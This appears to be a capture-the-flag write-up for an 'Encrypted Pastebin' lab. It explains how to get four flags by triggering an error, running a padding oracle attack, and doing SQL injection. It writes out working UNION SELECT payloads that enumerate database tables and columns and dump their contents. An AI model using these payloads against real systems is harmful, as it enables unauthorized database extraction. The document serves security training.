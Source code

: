 # Encrypted Pastebin

## Flags

### Flag0

Call `/?post=` with no content in order to generate an error, the response will contain a flag.

`curl http://35.227.24.107/3734c4f860/?post=`

### Flag1

1. Generate a pastebin url through the form
2. Copy the base64 `post` argument (PsRHmyq5eGocq0o0osxRKOoqbgAfPyN!...) 
3. Use the padding oracle attack to decipher the message. Check [python code](./padding_oracle.py)
4. The json formated message contains a flag property

### Flag2

1. Use the padding oracle to send the following json content `{"id": "1"}`.  Check [python code](./padding_oracle.py)
2. The error message is teeling us that the key parameter is missing to decipher the body of the pastebin but it is still printing the title which contains a flag

### Flag3

1. We found a tracking.gif loaded in every page, this might indicate that every page access is generating a database entry. We might be able to find the history of pastebin urls.
2. We will reuse Flag2 method but this time via SQL injection retrive the data from the database:
   1. Get tables: `{"id": "0 UNION SELECT (SELECT group_concat(TABLE_NAME separator ', ') FROM INFORMATION_SCHEMA.TABLES WHERE table_schema NOT IN ('performance_schema', 'information_schema', 'mysql')), 'toto' -- "}`
   2. `{"id": "0 UNION SELECT (SELECT group_concat(COLUMN_NAME separator ', ') FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'tracking'), 'totot' -- "}`
   3. `{"id": "0 UNION SELECT (SELECT group_concat(headers separator ', ') FROM tracking), 'totot' -- "}`
3. We find an url that correpon to the id=1, the body is containing another flag.

## References

- https://samsclass.info/141/proj/p14pad.htm
